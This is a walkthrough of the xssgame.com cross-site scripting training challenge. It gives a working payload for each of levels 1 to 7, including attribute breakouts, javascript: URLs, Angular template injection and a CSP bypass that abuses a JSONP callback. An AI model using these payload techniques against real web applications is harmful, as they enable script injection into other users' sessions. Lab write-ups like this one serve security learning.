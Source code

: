 # [xssgame.com](http://xssgame.com/)

## Level 1

The input is embedded as-is into the page that'll load next.

```
<script>alert()</script>
```

## Level 2

The input becomes an argument as follows `onload="startTime(' + input + ');"`.

```
3');alert('
```

This works because `3');` correctly terminates the original function call, `alert('` starts a new call, "ending" of the original one.

## Level 3

Entering the following URL into the search bar works.

```
http://www.xssgame.com/f/u0hrDTsXmyVJ/#'onerror='alert()'
```

Sometimes it told me for this and similar inputs that this is wrong, something about absolute URLs, etc., but it accepted it.
Try switching from single to double apostrophes, use `onload` instead, etc.

## Level 4

There's an intermediate navigation with sets `window.location` to a query string parameter's value.

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()
```

## Level 5

The page is modified before Angular processing kicks in.
The `utm_term` query string parameter's value is injected into the value of `<input name="utm_term">`.

```
http://www.xssgame.com/f/JFTG_t7t3N-P/?utm_term={{alert()}}
```

## Level 6

Simply posting the form doesn't inject anything useful into the response HTML.
Issuing a GET request like `/?query={{alert}}` results in the modification of the form's `action` parameter, it'll end up like this: `<form action="/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}"`.
The leading `{{` is dropped. Replacing it with an HTML entity works, however `&#123;` doesn't, only `&lcub;`.

```
http://www.xssgame.com/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}
```

## Level 7

Sending a GET request to `http://www.xssgame.com/f/wmOM2q5NJnZS/?menu=...` by supplying the `menu` parameter a Base64 payload indirectly injects the following into the page.

```
<script src="jsonp?menu=' + encodeURIComponent(menu) + '">
```

Using `btoa('<script>alert();</script>')` as the payload doesn't quite work though, we get the following error.

```
Refused to execute inline script because it violates the following Content Security Policy directive: "default-src http://www.xssgame.com/f/wmOM2q5NJnZS/ http://www.xssgame.com/static/". Either the 'unsafe-inline' keyword, a hash ('sha256-/NOakGMgxH1rSep6q9+wRmM98LxyJLGvY2s9h3kZOjY='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```

The error is due to the CSP set by the server-side. After the "trick" payload the DOM contains the following.

```
<h1>Error, no such menu: <script>alert();</script></h1>
```

Since the response body of the [JSONP](https://en.wikipedia.org/wiki/JSONP) call is `callback({"title":"Error, no such menu: <script>alert();</script>"})`.
This will execute the `callback(...)` function, which contains this `if (data.title) document.write('<h1>' + data.title + '</h1>');`, essentially injecting whatever in the `data.title` into the page itself.

JSONP is [exploitable if callback names supplied to such an endpoint are unsanitized](https://en.wikipedia.org/wiki/JSONP#Callback_name_manipulation_and_reflected_file_download_attack), meaning we can do this.

```
btoa('<script src="jsonp?callback=alert"></script>')
```

This ends up in the DOM as follows.

```
<h1>Error, no such menu: <script src="jsonp?callback=alert"></script></h1>
```

Which doesn't trigger the CSP, but triggers a GET request with the following response body.

```
alert({"title":"Welcome to my Website!","pictures":["const.png"]})
```

